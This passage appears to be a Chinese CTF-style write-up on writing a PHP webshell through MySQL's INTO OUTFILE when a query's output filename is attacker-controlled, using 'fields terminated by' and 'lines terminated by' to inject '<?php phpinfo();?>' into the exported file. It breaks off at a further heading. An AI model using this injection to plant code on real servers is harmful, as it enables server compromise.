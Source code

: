 
经常用sql写文件的人都知道可以写木马，但是这里的查询语句已经写死了，怎么写🐎。注意：sql语句里的`$filename`是可控的

在菜鸟教程看下sql导出语句

![2421](/medias/show-sql/2421.png)

原来导出语句后面是可以跟指定字符的

```sql
select a,b,a+b into outfile '/tmp/result.text'
fields terminated by ',' optionally enclosed by '"'
lines terminated by '\n'
from test_table;
```

### 字段末尾

`fields terminated by 分隔符`会在导出字段末尾添加一个指定的字符或语句作为分隔符

```sql
fields terminated by '<?php phpinfo();?>'
```

### 行末尾

`lines terminated by 分隔符`会在导出文件的每一个行末尾添加一个指定的字符或语句作为分隔符

```sql
lines terminated by '<?php phpinfo();?>'
```

### 自选位置
